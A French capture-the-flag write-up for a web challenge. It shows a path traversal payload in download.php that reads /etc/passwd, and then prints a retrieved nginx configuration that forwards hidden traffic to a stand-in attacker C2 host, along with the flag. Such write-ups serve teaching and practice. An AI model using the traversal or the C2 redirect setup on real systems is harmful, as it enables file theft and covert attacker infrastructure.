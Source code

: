 # Un chasseur sachant chasser partie 1

> Des analystes SOC du Ministère des Armées ont remarqué des flux suspects provenant de machines internes vers un site vitrine d'une entreprise. Pourtant ce site semble tout à fait légitime.
>
> Vous avez été mandaté par la Direction Générale de l'Armement pour mener l'enquête. Trouvez un moyen de reprendre partiellement le contrôle du site web afin de trouver comment ce serveur joue un rôle dans l'infrastructure de l'acteur malveillant.
>
> Aucun fuzzing n'est nécessaire.
>
> Le flag se trouve sur le serveur à l'endroit permettant d'en savoir plus sur l'infrastructure de l'attaquant.

## Description

On a accès à un site web de commande de burgers.

La plupart des pages sont statiques à l'exception de la page permettant de télécharger le menu : `/download.php?menu=menu_updated_09_11_2022.jpg`.

Je tente un path traversal : `/download.php?menu=../../../../../etc/passwd` et j'obtiens le fichier.

## Solution

Reste maintenant à savoir quel fichier chercher.
D'après la description, on a besoin de trouver l'infrastructure de l'acteur malveillant.

Après avoir téléchargé les pages du site, j'ai essayé de trouver des logs (pour serveurs Apache et nginx).
Il se trouve que les logs nginx existent même s'ils sont vides.

J'ai donc cherché la configuration dans `/etc/nginx/nginx.conf` :

```conf
worker_processes auto;
error_log stderr warn;
pid /run/nginx.pid;

events {
    worker_connections 1024;
}

http {

    include mime.types;
    default_type application/octet-stream;

    # Define custom log format to include reponse times
    log_format main_timed '$remote_addr - $remote_user [$time_local] "$request" '
                          '$status $body_bytes_sent "$http_referer" '
                          '"$http_user_agent" "$http_x_forwarded_for" '
                          '$request_time $upstream_response_time $pipe $upstream_cache_status';

    access_log /dev/stdout main_timed;
    error_log /dev/stderr notice;

    server_tokens off;

    keepalive_timeout 65;

    # Write temporary files to /tmp so they can be created as a non-privileged user
    client_body_temp_path /tmp/client_temp;
    proxy_temp_path /tmp/proxy_temp_path;
    fastcgi_temp_path /tmp/fastcgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    scgi_temp_path /tmp/scgi_temp;

    # Default server definition

    server {

        listen 80 default_server;
        server_name _;

        sendfile off;
        tcp_nodelay on;
        absolute_redirect off;

        root /var/www/html;
        index index.html;

        location / {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            try_files $uri $uri/ /index.php?q=$uri&$args;
        }

        # Redirect server error pages to the static page /50x.html
        error_page 500 502 503 504 /50x.html;
        location = /50x.html {
            root /var/lib/nginx/html;
        }

        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_split_path_info ^(.+\.php)(/.+)$;
            fastcgi_pass unix:/run/php-fpm.sock;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param SCRIPT_NAME $fastcgi_script_name;
            fastcgi_index index.php;
            include fastcgi_params;
        }

        # Deny access to . files, for security
        location ~ /\. {
            log_not_found off;
            deny all;
        }

        # Website Acquisition : done.
        # This rule is to become our redirector c2.
        # Covenant 0.5 works on a Linux docker.
        # The GRUNT port must be tcp/8000-8250.
        # DGHACK{L3s_D0ux_Burg3r5_se_s0nt_f4it_pwn_:(}
        location ^~ /1d8b4cf854cd42f4868849c4ce329da72c406cc11983b4bf45acdae0805f7a72 {
            limit_except GET POST PUT { deny all; }
            rewrite /1d8b4cf854cd42f4868849c4ce329da72c406cc11983b4bf45acdae0805f7a72/(.*) /$1  break;
            proxy_pass https://covenant-attacker.com:7443;
        }
    }
}
```

Flag : `DGHACK{L3s_D0ux_Burg3r5_se_s0nt_f4it_pwn_:(}`.